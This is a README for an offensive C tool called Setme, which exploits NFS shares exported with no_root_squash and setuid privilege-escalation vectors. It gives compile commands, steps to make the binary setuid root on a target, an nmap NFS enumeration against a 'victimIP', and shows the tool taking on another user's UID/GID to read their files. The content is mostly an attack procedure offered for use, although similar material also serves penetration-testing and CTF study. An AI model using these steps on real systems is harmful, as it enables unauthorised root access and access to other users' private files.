 # Setme

**A simple binary made in C to make exploitation of insecure NFS systems easier from a Linux host. Alternatively this quick nifty tool can be used with privilege escalation vectors such as privileged write/execution on a system, to simplify escalation and allow for stability during exploitation of said vector.**  
This one binary avoids having to add users and groups (and later deleting) when going through many different users NFS directories. It allows for root access and inheritance of permissions through SUID. Drop in a no_root_squash nfs directory,compile through the mounted nfs (or on your host system) and execute the finished binary on target machine to give yourself root.
##
##
**Installation:**  
Download the file setMe.c from the repo.

Compile with:  
**gcc setme.c -o setMe**  
Then on target system:  
**sudo chown root:root ./setMe && sudo chmod gu+s ./setMe**

*Considerations:*  
I would make sure you keep access to this binary very restricted, or delete after use- but I guess you would know that since you made it this far ;) .

##
**Usage:  
sudo nmap --script=nfs-ls** victimIP  
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-09 15:08 MST  
Nmap scan report for 10.10.10.10  
Host is up (0.097s latency).  
Not shown: 993 closed ports  
PORT STATE SERVICE  
22/tcp open ssh  
25/tcp open smtp  
80/tcp open http  
110/tcp open pop3  
111/tcp open rpcbind  
| nfs-ls: Volume /home  
| access: Read Lookup NoModify NoExtend NoDelete NoExecute  
| PERMISSION **UID GID** SIZE TIME FILENAME  
| drwxr-xr-x 0 0 4096 2015-09-17T13:21:59 .  
| drwxr-xr-x 0 0 4096 2015-01-07T10:56:34 ..  
| drwxr-xr-x **1013 1013** 4096 2016-11-23T10:17:47 mike  
| drwxr-xr-x **1012 1012** 4096 2012-01-23T11:20:40 alex  
| drwxr-xr-x **1011 1011** 4096 2017-06-23T10:32:52 jeff  
| drwxr-xr-x **1014 1014** 4096 2015-12-1T21:11:51 james  
|_  
119/tcp open nntp  
2049/tcp open nfs
  
Say we want to get into **mikes files**, we execute our binary with:  
**./setMe 1013 1013**  
Then we can get varying levels of access to the files depending on how the permissions are set up on the share. 

**Another example:**  
pop@kali:/setme/$ **./setMe 1013 1013**  
$ **id**  
uid=1013 gid=1013 groups=1013  
  
  
We are now free to browse the nfs folder shares pertaining to the uid and gid in this shell.
To exit the shell type "exit".


